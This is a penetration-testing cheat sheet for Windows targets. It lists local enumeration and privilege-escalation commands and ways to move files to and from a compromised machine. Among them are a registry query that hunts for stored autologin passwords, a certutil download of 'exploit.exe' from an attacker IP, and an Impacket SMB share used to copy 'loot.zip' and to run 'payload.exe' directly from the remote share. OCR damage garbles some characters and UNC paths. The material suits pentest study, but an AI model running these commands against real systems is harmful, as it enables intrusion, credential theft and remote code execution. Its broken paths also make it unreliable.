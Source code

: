 # Local Enumeration Checklists

## <mark style="color:red;">Windows Local Enumeration Checklist</mark>

<details>

<summary>Gathering Important Infos.</summary>

{% code overflow="wrap" lineNumbers="true" %}
```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" --> OS information.
hostname --> PC Name.
whoami /priv --> user privileges.
echo %username% --> User you are connected as.
net users --> list all users.
net user <username> --> more info about a particular user.
ipconfig /all --> available network interfaces.
route print --> routing table.
arp -A --> arp cache.
netstat -ano --> active network connections.
netsh firewall show state --> firewall information/status.
netsh firewall show config --> firewall config.
schtasks /query /fo LIST /v --> view scheduled task running.
tasklist /SVC --> running processes/services.
net start --> started services.
DRIVERQUERY -> installed drivers.
```
{% endcode %}

</details>

<details>

<summary>Priv Esc Checklist</summary>

{% code overflow="wrap" lineNumbers="true" %}
```bash
https://www.computerhope.com/wmic.htm --> reference material.

wmic /? --> display help menu.
wmic qfe get --> list all patches.

# Priv Ecs
whoami
net user <username>
systeminfo
net config Workstation
net users
wmic service list full > services.txt --> save all services in a .txt file.
wmic process > processes.txt
or
tasklist > processes.txt
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" --> check for windows autologin password.
tree c:\ > c:\users\public\folders.txt --> dump a tree of all folders on a drive.
dir /s c:\ > c:\users\public\files.txt --> or for a list of files.
```
{% endcode %}

</details>

### <mark style="color:red;">Uploading Files to and from Windows Target</mark>

[<mark style="color:red;">https://lolbas-project.github.io/#</mark>](https://lolbas-project.github.io)

`certutil.exe -urlcache -split -f http://10.10.10.10/exploit.exe` - downloading files.

### Transfering Files via SMB using Impacket

1 - First we will setup the SMB Share on Kali like so:

`impacket-smbserver root /root/Desktop` -

2 - Confirm it is up and running using Net View on the Windows command line:

`net view \192.168.0.49` -&#x20;

3 - Then we can trasnfer �les from the command line as if it were a normal folder:

`C:\Users\Admin>dir \192.168.0.49\smbshare`&#x20;

`C:\Users\Admin>copy \192.168.0.49\smbshare\loot.zip`&#x20;





By far the most interesting feature of the SMB Share method is that you can execute �les directly over the SMB Share without copying them to the remote machine (�leless execution is so hot right now):

`C:\Users\Admin>\192.168.0.49\smbshare\payload.exe`&#x20;



A fancy trick I learned from IPPSec is to create a mapped drive to a remote SMB share like so:

```bash
net use y: \\192.168.0.49\smbshare
y:
dir
```

